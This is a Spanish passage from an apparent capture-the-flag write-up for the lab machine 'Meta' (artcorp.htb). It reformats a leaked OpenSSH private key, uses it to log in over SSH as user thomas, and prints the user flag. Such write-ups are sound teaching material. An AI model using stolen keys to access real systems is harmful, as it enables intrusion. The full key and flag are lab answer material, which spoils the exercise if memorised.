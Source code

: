 Tenemos que hacerle un pequeño tratamiento a esta clave porque nos la ha mostrado en una sóla línea y si no le damos el formato correcto, no funcionará.
Es básicamente meter un salto de línea en cada espacio hasta llegar al final del archivo, donde hay que meter un salto más.
Para ahorraros trabajo, os la dejo con el formato adecuado:

```text
-----BEGIN OPENSSH PRIVATE KEY-----
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
bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=
-----END OPENSSH PRIVATE KEY-----

```

La guardamos en nuestra máquina, le damos permisos con **`chmod 600 metakey`** y nos conectamos:

```console
p3ntest1ng:~$ ssh -i metakey thomas@artcorp.htb
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
thomas@meta:~$ ls
user.txt
thomas@meta:~$ cat user.txt 
e511271f887e1a7a3443c8811e764d14
```
